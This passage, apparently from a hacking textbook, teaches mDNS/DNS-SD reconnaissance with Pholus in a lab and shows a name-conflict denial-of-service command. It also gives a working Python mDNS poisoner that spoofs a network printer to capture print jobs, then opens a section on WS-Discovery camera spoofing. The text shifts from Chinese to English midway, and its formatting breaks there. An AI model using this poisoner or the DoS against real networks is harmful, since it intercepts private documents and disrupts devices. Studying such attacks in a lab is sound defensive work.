DNS-SD 允许客户端发现网络上可用的服务。要使用它，客户端发送标准的 DNS 查询请求指针记录（PTR），这些记录将服务类型映射到该类型服务的特定实例名称列表。

要请求 PTR 记录，客户端使用 `"<Service>.<Domain>"` 的名称格式。`<Service>` 部分是由一对 DNS 标签组成：一个下划线字符，后跟服务名称（例如 _ipps、_printer 或 _ipp），以及 `_tcp` 或 `_udp`。`<Domain>` 部分是 `".local"`。响应者随后返回指向附带的服务（SRV）和文本（TXT）记录的 PTR 记录。一个 mDNS PTR 记录包含服务的名称，这与 SRV 记录的名称相同，但不包含实例名称：换句话说，它指向 SRV 记录。以下是一个 PTR 记录的示例：

```
_ipps._tcp.local: type PTR, class IN, test._ipps._tcp.local
```

PTR 记录冒号左边的部分是它的名称，右边的部分是 PTR 记录指向的 SRV 记录。SRV 记录列出了可以访问该服务实例的目标主机和端口。例如，图 6-4 显示了 Wireshark 中的 `"test._ipps._tcp.local"` SRV 记录。



图 6-4：服务 `"test._ipps._tcp.local"` 的 SRV 记录示例。`Target` 和 `Port` 字段包含服务的主机名和监听端口。

SRV 名称的格式是 `"<Instance>.<Service>.<Domain>"`。`<Instance>` 标签包含服务的用户友好名称（在此示例中为 `test`）。`<Service>` 标签标识服务的功能以及它使用的应用协议。它由一组 DNS 标签组成：一个下划线字符，后跟服务名称（例如 `_ipps`、`_ipp`、`_http`），然后是传输协议（例如 `_tcp`、`_udp`、`_sctp` 等）。`<Domain>` 部分指定这些名称注册的 DNS 子域。对于 mDNS，它是 `*.local*`，但在使用单播 DNS 时可以是任何名称。SRV 记录还包含 `Target` 和 `Port` 部分，列出了可以找到该服务的主机名和端口（参见 图 6-4）。

TXT 记录与 SRV 记录具有相同的名称，提供了关于该实例的额外信息，采用键/值对的结构形式。当服务的 IP 地址和端口号（包含在 SRV 记录中）不足以识别该服务时，TXT 记录就会提供所需的信息。例如，在旧的 Unix LPR 协议中，TXT 记录指定了队列名称。

### 使用 mDNS 和 DNS-SD 进行侦察

通过简单地发送 mDNS 请求并捕获多播 mDNS 流量，你可以了解很多有关本地网络的信息。例如，你可以发现可用的服务，查询某个服务的特定实例，列举域名，并识别主机。对于主机识别，必须在你试图识别的系统上启用`_workstation`特殊服务。

我们将使用 Antonios Atlasis 开发的工具 Pholus 进行侦察。你可以从[`github.com/aatlasis/Pholus/`](https://github.com/aatlasis/Pholus/)下载。请注意，Pholus 是用 Python 2 编写的，而 Python 2 已不再得到官方支持。你可能需要像我们在《获取和使用 Umap》一章中介绍的 Umap 安装那样，手动下载 Python2 的 pip。然后，你需要使用 Python2 版本的 pip 安装 Scapy：

```
# pip install scapy
```

Pholus 将发送 mDNS 请求（`-rq`）到本地网络并捕获多播 mDNS 流量（设置`-stimeout`为 10 秒），以识别大量有趣的信息：

```
root@kali:~/zeroconf/mdns/Pholus# ./pholus.py eth0 -rq -stimeout 10
source MAC address: 00:0c:29:32:7c:14 source IPv4 Address: 192.168.10.10 source IPv6 address: fdd6:f51d:5ca8:0:20c:29ff:fe32:7c14
Sniffer filter is: not ether src 00:0c:29:32:7c:14 and udp and port 5353
I will sniff for 10 seconds, unless interrupted by Ctrl-C
------------------------------------------------------------------------
Sending mdns requests
30:9c:23:b6:40:15 192.168.10.20 QUERY Answer: _services._dns-sd._udp.local. PTR Class:IN "_nvstream_dbd._tcp.local."
9c:8e:cd:10:29:87 192.168.10.245 QUERY Answer: _services._dns-sd._udp.local. PTR Class:IN "_http._tcp.local."
00:0c:29:7f:68:f9 fd37:84e0:6d4f::1 QUERY Question: 1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.f.4.d.6.0.e.4.8.7.3.d.f.ip6.arpa. * (ANY) QM Class:IN
00:0c:29:7f:68:f9 fd37:84e0:6d4f::1 QUERY Question: OpenWrt-1757.local. * (ANY) QM Class:IN
00:0c:29:7f:68:f9 fd37:84e0:6d4f::1 QUERY Auth_NS: OpenWrt-1757.local. HINFO Class:IN "X86_64LINUX"
00:0c:29:7f:68:f9 fd37:84e0:6d4f::1 QUERY Auth_NS: OpenWrt-1757.local. AAAA Class:IN "fd37:84e0:6d4f::1"
00:0c:29:7f:68:f9 fd37:84e0:6d4f::1 QUERY Auth_NS: 1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.f.4.d.6.0.e.4.8.7.3.d.f.ip6.arpa. PTR Class:IN "OpenWrt-1757.local."
```

图 6-5 显示了 Pholus 查询的 Wireshark 数据包捕获。请注意，回复是发送回 UDP 端口 5353 的多播地址。因为任何人都可以接收多播消息，所以攻击者可以轻松地从伪造的 IP 地址发送 mDNS 查询，并仍然能在本地网络上接收到回复。

了解网络上暴露的服务是任何安全测试的第一步。通过这种方法，你可以找到具有潜在漏洞的服务，并进行利用。

### 滥用 mDNS 探测阶段

在本节中，我们将利用 mDNS 探测阶段。在此阶段，每当 mDNS 响应器启动或更改其连接状态时，响应器会向本地网络询问是否有与它计划公告的名称相同的资源记录。为此，它会发送类型为`"ANY" (255)`的查询，如图 6-6 所示。



图 6-5：Pholus 发送 mDNS 请求并在多播地址上接收回复

如果答案包含相关记录，探测主机应选择一个新名称。如果在 10 秒内发生 15 次冲突，主机必须至少等待五秒钟才能进行下一次尝试。此外，如果一分钟内主机找不到未使用的名称，它将向用户报告错误。



图 6-6：一个关于`"test._ipps._tcp.local"`的 mDNS `"ANY"`查询示例

探测阶段为以下攻击提供了便利：攻击者可以监控 mDNS 流量中的探测主机，然后持续发送包含相关记录的响应，迫使主机不断更改其名称，直到主机停止。这强制执行配置更改（例如，探测主机必须为其提供的服务选择一个新名称），并且如果主机无法访问其正在寻找的资源，还可能导致拒绝服务攻击。

为了快速演示此攻击，请使用 Pholus 并带上参数 `-afre`：

```
# python pholus.py eth0 -afre -stimeout 1000
```

将 `eth0` 参数替换为你首选的网络接口。`-afre` 参数使 Pholus 在 `-stimeout` 秒内发送伪造的 mDNS 回复。

该输出显示 Pholus 在网络上阻止了一个新的 Ubuntu 主机：

```
00:0c:29:f4:74:2a 192.168.10.219 QUERY Question: **ubuntu-133.local.** * (ANY) QM Class:IN
00:0c:29:f4:74:2a 192.168.10.219 QUERY Auth_NS: ubuntu-133.local. AAAA Class:IN "fdd6:f51d:5ca8:0:c81e:79a4:8584:8a56"
00:0c:29:f4:74:2a 192.168.10.219 QUERY Auth_NS: 6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa. PTR Class:IN "ubuntu-133.local."
Query Name =  6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa  Type= 255
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Question: 6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa. * (ANY) QM Class:IN
Query Name =  ubuntu-134.local  Type= 255
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Question: ubuntu-134.local. * (ANY) QM Class:IN
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Auth_NS: ubuntu-134.local. AAAA Class:IN "fdd6:f51d:5ca8:0:c81e:79a4:8584:8a56"
```

当 Ubuntu 主机启动时，其 mDNS 响应程序尝试查询本地名称 `ubuntu.local`。由于 Pholus 不断发送伪造的回复，表示攻击者拥有该名称，Ubuntu 主机不断迭代新的潜在名称，如 `ubuntu-2.local`、`ubuntu-3.local` 等，最终都无法注册。注意，主机尝试到 `ubuntu-133.local` 时依然没有成功。

### mDNS 和 DNS-SD 中间人攻击

现在，让我们尝试一个更具影响力的高级攻击：mDNS 欺骗攻击者通过利用 mDNS 中缺乏身份验证的漏洞，将自己置于客户端和某个服务之间的特权中间人位置。这使他们能够捕获和修改通过网络传输的潜在敏感数据，或干脆拒绝服务。

在本节中，我们将使用 Python 构建一个 mDNS 欺骗工具，伪装成网络打印机，以捕获本应发送到真实打印机的文档。然后，我们将在虚拟环境中测试该攻击。

#### 设置受害者服务器

我们将首先设置受害者机器，使用 *ippserver* 模拟一个打印机。Ippserver 是一个简单的互联网打印协议（IPP）服务器，可以充当一个非常基本的打印服务器。我们使用了 Ubuntu 18.04.2 LTS（IP 地址：192.168.10.219）在 VMware 上，但操作系统的具体细节不重要，只要你能运行当前版本的 ippserver。

安装操作系统后，在终端中输入以下命令启动打印服务器：

```
$ **ippserver test -v**
```

该命令调用默认配置设置下的 ippserver。它应该监听 TCP 8000 端口，宣布一个名为 `test` 的服务，并启用详细输出。如果你在启动服务器时打开了 Wireshark，你应该注意到服务器通过向本地多播地址 224.0.0.251 发送 mDNS 查询来执行探测阶段，询问是否已经有人拥有名为 `test` 的打印服务（图 6-7）。



图 6-7：Ippserver 发送 mDNS 查询，询问是否已经使用了与名为 `test` 的打印机服务相关的资源记录。

这个查询还包含了一些在权限部分的*提议*记录（你可以在图 6-7 中看到这些记录，位于`Authoritative nameservers`下）。因为这不是一个 mDNS 回复，所以这些记录不算作官方响应；它们用于在同时探测的情况下作为决胜记录，这种情况目前不需要我们关注。

服务器接下来会等待几秒钟，如果网络上没有其他设备回复，它将进入公告阶段。在这个阶段，ippserver 会发送一个非请求的 mDNS 响应，其中的答案部分包含了所有它新注册的资源记录（见图 6-8）。



图 6-8：在公告阶段，ippserver 发送了一个包含新注册记录的非请求 mDNS 响应。

该响应包含了一组针对每个服务的 PTR、SRV 和 TXT 记录，如《DNS-SD 工作原理》一书第 132 页所解释的内容。它还包括 A 记录（针对 IPv4）和 AAAA 记录（针对 IPv6），这些记录用于通过 IP 地址解析域名。在这种情况下，`ubuntu.local`的 A 记录将包含 IP 地址 192.168.10.219。

#### 设置受害客户端

对于请求打印服务的受害者，你可以使用任何运行支持 mDNS 和 DNS-SD 的操作系统的设备。在这个例子中，我们将使用一台运行 macOS High Sierra 的 MacBook Pro。苹果的零配置网络实现被称为 Bonjour，它基于 mDNS。Bonjour 应该在 macOS 中默认启用。如果没有，你可以通过在终端中输入以下命令来启用它：

```
$ **sudo launchctl load -w /System/Library/LaunchDaemons/com.apple.mDNSResponder.plist**
```

图 6-9 展示了当我们点击**系统偏好设置** ▶ **打印机与扫描仪**并点击**+**按钮添加新打印机时，`mDNSResponder`（Bonjour 的主引擎）是如何自动找到合法的 Ubuntu 打印服务器的。

为了让攻击场景更具现实感，我们假设 MacBook 已经预配置了一个名为`test`的网络打印机。自动服务发现的一个最重要方面是，无论我们的系统是否曾经发现过该服务，都会继续工作！这增加了灵活性（尽管牺牲了安全性）。即使主机名和 IP 地址发生了变化，客户端仍然需要能够与服务通信；因此，每当 macOS 客户端需要打印文档时，它都会发送一个新的 mDNS 查询，询问`test`服务的位置，即使该服务的主机名和 IP 地址与上次一样。



图 6-9：macOS 内置的 Bonjour 服务自动发现的合法打印机

#### 常见客户端与服务器交互的工作原理

现在，让我们看看 macOS 客户端在一切正常时如何请求打印机服务。如图 6-10 所示，客户端对`test`服务的 mDNS 查询会请求`test._ipps._tcp.local`的 SRV 和 TXT 记录。它还会请求类似的替代服务，例如`test._printer._tcp.local`和`test._ipp._tcp.local`。


图 6-10：客户端最初发送的 mDNS 查询，用于发现本地网络打印机，再次询问`test` ipps 服务，尽管它可能曾经使用过该服务。

然后，Ubuntu 系统将像在宣布阶段一样进行回复。它将发送包含 PTR、SRV 和 TXT 记录的响应，这些记录是它应该拥有权限的所有请求服务（例如，`test._ipps._tcp.local`），并且还会包含 A 记录（如果主机启用了 IPv6，还会包含 AAAA 记录）。在这种情况下，TXT 记录（图 6-11）尤其重要，因为它包含了提交打印作业的确切 URL（`adminurl`）。



图 6-11：TXT 记录的一部分，这部分包含在 ippserver 的 mDNS 响应答复部分。`adminurl`包含了打印队列的确切位置。

一旦 macOS 客户端获得了这些信息，它就知道了所有需要的信息来将打印作业发送到 Ubuntu 的 ippserver：

+   从 PTR 记录中，可以知道有一个名为`test`的服务，位于`_ipps._tcp.local`。

+   从 SRV 记录中，可以得知该`test._ipps._tcp.local`服务托管在`ubuntu.local`上，TCP 端口为 8000。

+   从 A 记录中可以得知，`ubuntu.local`解析为 192.168.10.219。

+   从 TXT 记录中，可以得知提交打印作业的 URL 是[`ubuntu.8000/ipp/print`](https://ubuntu.8000/ipp/print)。

然后，macOS 客户端将启动与 ippserver 在 8000 端口上的 HTTPS 会话，并传输要打印的文档：

```
[Client 1] Accepted connection from "192.168.10.199".
[Client 1] Starting HTTPS session.
[Client 1E] Connection now encrypted.
[Client 1E] POST /ipp/print
[Client 1E] Continue
[Client 1E] Get-Printer-Attributes successful-ok
[Client 1E] OK
[Client 1E] POST /ipp/print
[Client 1E] Continue
[Client 1E] Validate-Job successful-ok
[Client 1E] OK
[Client 1E] POST /ipp/print
[Client 1E] Continue
[Client 1E] Create-Job successful-ok
[Client 1E] OK
```

你应该看到来自 ippserver 的类似输出。

#### 创建 mDNS 中毒器

我们将用 Python 编写的 mDNS 中毒器监听 UDP 端口 5353 上的多播 mDNS 流量，直到它找到一个客户端尝试连接到打印机，然后发送回复。图 6-12 展示了相关的步骤。



图 6-12：mDNS 中毒攻击步骤

首先，攻击者监听 UDP 端口 5353 上的多播 mDNS 流量。当 macOS 客户端重新发现`test`网络打印机并发送 mDNS 查询时，攻击者会持续向中毒客户端的缓存发送回复。如果攻击者在合法打印机之前赢得了竞赛，攻击者就成为了中间人，处理来自客户端的流量。客户端将文档发送给攻击者，攻击者然后可以将文档转发给打印机，以避免被发现。如果攻击者没有将文档转发给打印机，用户可能会怀疑文档未被打印。

我们将通过创建一个框架文件（Listing 6-2）开始，然后实现一个简单的网络服务器功能，用于监听多播 mDNS 地址。请注意，该脚本是用 Python 3 编写的。

```
 #!/usr/bin/env python
  import time, os, sys, struct, socket
  from socketserver import UDPServer, ThreadingMixIn
  from socketserver import BaseRequestHandler
  from threading import Thread
  from dnslib import *

  MADDR = ('224.0.0.251', 5353)
class UDP_server(ThreadingMixIn, UDPServer): 1
    allow_reuse_address = True
    def server_bind(self):
      self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)  
      mreq = struct.pack("=4sl", socket.inet_aton(MADDR[0]), socket.INADDR_ANY)
      self.socket.setsockopt(socket.IPPROTO_IP, 2socket.IP_ADD_MEMBERSHIP, mreq)
      UDPServer.server_bind(self)

  def MDNS_poisoner(host, port, handler): 3
    try:
      server = UDP_server((host, port), handler)
      server.serve_forever()
 except:
      print("Error starting server on UDP port " + str(port))

class MDNS(BaseRequestHandler):
    def handle(self):
      target_service = ''
      data, soc = self.request
      soc.sendto(d.pack(), MADDR)
      print('Poisoned answer sent to %s for name %s' % (self.client_address[0], target_service))

def main(): 4
    try:
      server_thread = Thread(target=MDNS_poisoner,  args=('', 5353, MDNS,))
      server_thread.setDaemon(True)
      server_thread.start()

      print("Listening for mDNS multicast traffic")
      while True:
        time.sleep(0.1)

    except KeyboardInterrupt:
      sys.exit("\rExiting...")

  if __name__ == '__main__':
    main()
```

Listing 6-2：mDNS 污染器的框架文件

我们从导入我们需要的 Python 模块开始。`socketserver`框架简化了编写网络服务器的任务。为了解析和构造 mDNS 数据包，我们导入了*dnslib*，这是一个简单的库，用于编码和解码 DNS 数据包。然后，我们定义了一个全局变量`MADDR`，它保存了 mDNS 的多播地址和默认端口（5353）。

我们创建了`UDP_server`，使用`ThreadingMixIn`类，该类通过线程实现并行性。服务器的构造函数将调用`server_bind`函数，将套接字绑定到所需的地址。我们启用了`allow_reuse_address`，这样就可以重用绑定的 IP 地址，并且启用了`SO_REUSEADDR`套接字选项，这允许套接字在我们重启程序时强制绑定到相同的端口。然后，我们必须使用`IP_ADD_MEMBERSHIP`加入多播组（224.0.0.251）。

````The `MDNS_poisoner` function 3 creates an instance of the `UDP_server` and calls `serve_forever` on it to handle requests until an explicit shutdown. The `MDNS`class handles all incoming requests, parsing them and sending back the replies. Because this class is the brainpower of the poisoner, we’ll explore the class in more detail later. You’ll have to replace this block of code (Listing 6-3) with the complete `MDNS` class in Listing 6-2.    The `main`function 4 creates the main thread for the mDNS server. This thread will automatically start new threads for each request, which the `MDNS.handle` function will handle.With`setDaemon(True)`, the server will exit when the main thread terminates, and you can terminate the main thread by pressing CTRL-C, which will trigger the `KeyboardInterrupt` exception. The main program will finally enter an infinite loop, and the threads will handle all the rest.    Now that we’ve created the skeleton, let’s outline the methodology for creating the `MDNS` class, which implements the mDNS poisoner:    1.  1. Capture network traffic to determine which packets you need to reproduce and save the *pcap* file for later. 2.  2. Export the raw packet bytes from Wireshark. 3.  3. Search for libraries implementing existing functionality, such as dnslib for the DNS packet handling, so you don’t reinvent the wheel. 4.  4. When you need to parse incoming packets, as is the case with the mDNS query, first use the previously exported packets from Wireshark to initially feed into the tool instead of getting new ones from the network. 5.  5. Start sending packets on the network, and then compare them with the first traffic dump. 6.  6. Finalize and refine the tool by cleaning up and commenting code, as well as adding real-time configurability via command line arguments.    Let’s see what our most important class, `MDNS`, does (Listing 6-3). Replace the `MDNS` block in Listing 6-2 with this code.    ``` class MDNS(BaseRequestHandler):   def handle(self):     target_service = ''     data, soc = self.request 1     d = DNSRecord.parse(data) 2      # basic error checking - does the mDNS packet have at least 1 question?     if d.header.q < 1:       return      # we are assuming that the first question contains the service name we want to spoof     target_service = d.questions[0]._qname 3      # now create the mDNS reply that will contain the service name and our IP address     d = DNSRecord(DNSHeader(qr=1, id=0, bitmap=33792)) 4     d.add_answer(RR(target_service, QTYPE.SRV, ttl=120, rclass=32769, rdata=SRV(priority=0, target='kali.local', weight=0, port=8000)))     d.add_answer(RR('kali.local', QTYPE.A, ttl=120, rclass=32769, rdata=A("192.168.10.10"))) 5     d.add_answer(RR('test._ipps._tcp.local', QTYPE.TXT, ttl=4500, rclass=32769, rdata=TXT(["rp=ipp/print", "ty=Test Printer", "adminurl=https://kali:8000/ipp/print", "pdl=application/pdf,image/jpeg,image/pwg-raster", "product=(Printer)", "Color=F", "Duplex=F", "usb_MFG=Test", "usb_MDL=Printer", "UUID=0544e1d1-bba0-3cdf-5ebf-1bd9f600e0fe", "TLS=1.2", "txtvers=1", "qtotal=1"]))) 6      soc.sendto(d.pack(), MADDR) 7     print('Poisoned answer sent to %s for name %s' % (self.client_address[0], target_service)) ```    Listing 6-3: The final `MDNS` class for our poisoner    We’re using Python’s `socketserver` framework to implement the server. The `MDNS` class has to subclass the framework’s `BaseRequestHandler` class and override its `handle()` method to process incoming requests. For UDP services, `self.request` 1 returns a string and socket pair, which we save locally. The string contains the data incoming from the network, and the socket pair is the IP address and port belonging to the sender of that data.    We then parse the incoming `data` using `dnslib` 2, converting them into a `DNSRecord` class that we can then use to extract the domain name 3 from the `QNAME` of the Question section. The Question section is the part of the mDNS packet that contains the Queries (for example, see Figure 6-7). Note that to install `dnslib`, you can do the following:    ``` # git clone https://github.com/paulc/dnslib # cd dnslib # python setup.py install ```    Next, we must create our mDNS reply 4 containing the three DNS records we need (SRV, A, and TXT). In the Answers section, we add the SRV record that associates the `target_service` with our hostname (`kali.local`) and port 8000\. We add the A record 5 that resolves the hostname to the IP address. Then we add the TXT record 6 that, among other things, contains the URL for the fake printer to be contacted at https://kali:8000/ipp/print.    Finally, we send the reply to the victim through our UDP socket 7.    As an exercise, we leave it to you to configure the hardcoded values contained in the mDNS reply step. You could also make the poisoner more flexible so it poisons a specific target IP and service name only.    #### Testing the mDNS Poisoner    Now let’s test the mDNS poisoner. Here is the attacker’s poisoner running:    ``` root@kali:~/mdns/poisoner# python**3** **poison.py** Listening for mDNS multicast traffic Poisoned answer sent to 192.168.10.199 for name _universal._sub._ipp._tcp.local. Poisoned answer sent to 192.168.10.219 for name test._ipps._tcp.local. Poisoned answer sent to 192.168.10.199 for name _universal._sub._ipp._tcp.local. ```    We try to automatically grab the print job from the victim client, getting it to connect to us instead of the real printer by sending seemingly legitimate mDNS traffic. Our mDNS poisoner replies to the victim client 192.168.10.199, telling it that the attacker holds the `_universal._sub._ipp._tcp.local` name. The mDNS poisoner also tells the legitimate printer server (192.168.10.219) that the attacker holds the `test._ipps._tcp.local` name.    Remember that this is the name that the legitimate print server was advertising. Our poisoner, a simple proof of concept script at this stage, doesn’t distinguish between targets; rather, it indiscriminately poisons every request it sees.    Here is the ippserver that emulates a printer server:    ``` root@kali:~/tmp# ls root@kali:~/tmp# ippserver test -d . -k -v Listening on port 8000. Ignore Avahi state 2. printer-more-info=https://kali:8000/ printer-supply-info-uri=https://kali:8000/supplies printer-uri="ipp://kali:8000/ipp/print" Accepted connection from 192.168.10.199 192.168.10.199 Starting HTTPS session. 192.168.10.199 Connection now encrypted. … ```    With the mDNS poisoner running, the client (192.168.10.199) will connect to the attacker’s ippserver instead of the legitimate printer (192.168.10.219) to send the print job.    But this attack doesn’t automatically forward the print job or document to the real printer. Note that in this scenario, the Bonjour implementation of mDNS/DNS-SD seems to query the `_universal` name every time the user tries to print something from the MacBook, and it would need to be poisoned as well. The reason is that our MacBook was connected to our lab via Wi-Fi, and macOS was trying to use AirPrint, a macOS feature for printing via Wi-Fi. The `_universal` name is associated with AirPrint.    ## Exploiting WS-Discovery    The *Web Services Dynamic Discovery Protocol* (*WS-Discovery*) is a multicast discovery protocol that locates services on a local network. Have you ever wondered what could happen if you pretended to be an IP camera by imitating its network behavior and attacking the server that manages it? Corporate networks, on which a large number of cameras reside, often rely on *video management servers*, software that lets system administrators and operators remotely control the devices and view their video feed through a centralized interface.    Most modern IP cameras support *ONVIF*, an open industry standard developed to let physical, IP-based security products work with each other, including video surveillance cameras, recorders, and associated software. It’s an open protocol that surveillance software developers can use to interface with ONVIF-compliant devices regardless of the device’s manufacturer. One of its features is *automatic device discovery*, which it typically carries out using WS-Discovery. In this section, we’ll explain how WS-Discovery works, create a proof of concept Python script for exploiting inherent protocol vulnerabilities, create a fake IP camera on the local network, and discuss other attack vectors.    ### How WS-Discovery Works    Without getting into too many details, we’ll provide a brief overview of how WS-Discovery works. In WS-Discovery terminology, a *Target Service* is an endpoint that makes itself available for discovery, whereas a *Client* is an endpoint that searches for Target Services. Both use SOAP queries over UDP to the 239.255.255.250 multicast address with the destination UDP port 3702\. Figure 6-13 represents the message exchanges between the two.      Figure 6-13: WS-Discovery message exchanges between a Target Service and a Client      A Target Service sends a multicast *Hello* 1 when it joins a network. The Target Service can receive a multicast *Probe* 2, a message sent by a Client searching for a Target Service by *Type*, at any time. The Type is an identifier for the endpoint. For example, an IP camera could have NetworkVideoTransmitter as a Type. It might also send a unicast *Probe Match*3 if the Target Service matches a Probe (other matching Target Services might also send unicast Probe Matches). Similarly, a Target Service might receive a multicast *Resolve*4 at any time, a message sent by a Client searching for a Target by name, and send a unicast *Resolve Match*5 if it’s the target of a Resolve. Finally, when a Target Service leaves a network, it makes an effort to send a multicast *Bye* 6.    A Client mirrors the Target Service messages. It listens to the multicast Hello, might Probe to find Target Services or Resolve to find a particular Target Service, and listens to the multicast Bye. We mostly want to 